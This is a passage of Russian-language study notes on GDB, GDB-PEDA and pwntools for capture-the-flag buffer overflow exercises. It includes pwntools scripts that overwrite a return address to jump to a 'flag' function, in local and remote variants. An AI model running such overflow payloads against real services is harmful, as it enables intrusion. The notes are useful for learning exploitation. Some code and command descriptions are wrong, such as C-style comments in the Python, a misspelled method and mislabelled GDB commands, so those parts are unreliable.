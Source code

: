 [[Кибербезопасность/Инструментарий#Реверс-инжиниринг|Инструменты ревёрса]]

# **GDB-PEDA** comands (проверка буфера и адресов)

**Установка и инструкции:** [longld/peda: PEDA - Python Exploit Development Assistance for GDB (github.com)](https://github.com/longld/peda)

**Запуск:**
`gdb myFile -q` - стандартный запуск бинарного файла `myFile`, который будет исследоваться

**Работа с полезной нагрузкой:**
`pattern_create 200 payload.txt` - создать файл `payload.txt` на 200 символов

**Передать полезную нагрузку:**
`run < payload.txt`

**Адреса**
* `pattern_offset 0x41417741` - Узнать количество символов (смещение) перед нужным адресом (`0x41417741`)
* `b flag` - установить брэйкпоинт на нужной функции
* `disass myFunc` - посмотреть выделенные для функции `myFunc` адреса

**Найти адрес конкретной функции (flag): **
`disass flag`

## **GENERATING-PAYLOAD-WITH-PWNTOOLS**

**Установка:**
```bash
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

**Подготовим полезную нагрузку:**
```python
# payload-gen.py
from pwn import *

offset = 188    // пусть будет необходимо переместиться на 188 байт в памяти
flag_addr = 0x080491e2 // пусть на 188 байте будет адрес 0x080491e2
eip_addr = p32(flag_addr)// eip_addr должен иметь 16й формат - функция p32() 
garbage = b'A'*offset

previous_frame = b'A'*4

param_1 = p32(0xdeadbeef)
param_2 = p32(0xc0ded00d)

payload = garbage + eip_addr + previous_frame + param_1 + param_2

with open("payload.txt", "wb") as file:
    file.write(payload)
```
Это один из самых простых вариантов, но даже здесь есть несколько моментов, на которые стоит обратить внимание:  
  
* адрес возврата, который мы перезаписываем, - eip_addr - упакован в шестнадцатеричный формат в little endian (по умолчанию для p32())  
* выходной файл - payload.txt - открывается в двоичном (b) режиме для записи (w)  
* мы используем соглашения вызова c, чтобы определить, какой параметр идет первым, а какой вторым  
* данные в previous_frame произвольны, они просто служат заполнителем, но их длина должна быть ровно 4 байта  
* для параметров используется та же упаковка, что и для начального адреса флага. 

Пришло время для проверки. Давайте установим точку останова на функции flag()

---

# GDB - стандартная

Запуск:
```shell
gdb <исполняемый file>
```

Команды:

> `г` или `run` - запустить программу
> `start`  - _отладчик_ - запустить и сразу остановиться
> - Здесь:
> `c` - continue / продолжить
> `q` - закрыть GDB
> `r` - вернуться назад
> 
> `ni` – перейти на следующую инструкцию
> `si` – то же, что и `ni`, но если `call`, то зайти в функцию
> `break *addr` - остановиться на адресе
> `x/gx addr` – посмотреть 16bit-hex значенение по адресу 
> `сусlic` - сгенерировать последовательность де Брёйна 
> - Пример:
> `сусlic 128` - сгенерировать последовательность из 128 битной строки 
> `сусlic -l <64 битное число>` - узнать отступ (ofset), по которому находится переданное число
> 
> `info functions` - вывести все функции

Дополнительные команды:
> `context`
> `vmmap` - вывести мапинги памяти (какой файл где лежит в памяти процесса)
> `!clear` - отчистить консоль **Как и любая другая обычная команда через "!"**

## **GENERATING-PAYLOAD-WITH-PWNTOOLS**

**Подготовим полезную нагрузку:**
```python
# payload-gen.py
from pwn import *

p = process('./main') # открыть исполняемый файл
p.sendline(b'A'*40+p64(адрес)) # передать на ввод текст. Здесь мы передаём строку из 40 букв A конкатинированую с адресом переменной, полученной из gdb info functions. Таким образом, если переполнить буфер на 40м байте, исполнение будет перемещено на адрес в функции p64()
p.interactive()
```
**Та же нагрузка для удалённого сервера:**
```python
# payload-gen.py
from pwn import *

p = remote('r_IP', <r_port>) # открыть исполняемый файл
p.sendline(b'A'*40+p64(адрес)) # передать на ввод текст. Здесь мы передаём строку из 40 букв A конкатинированую с адресом переменной, полученной из gdb info functions. Таким образом, если переполнить буфер на 40м байте, исполнение будет перемещено на адрес в функции p64()
p.interactive()
```

**Функции в PWNTOOLS:**
> `p.porcess('./file')`
>
> `p.recvline()` - прочитать ровно одну строку, которую вывела программа
> `libc = int(p.recvline()[:-1][::-1].hex(), 16)` - записать строку в число в 16м формате
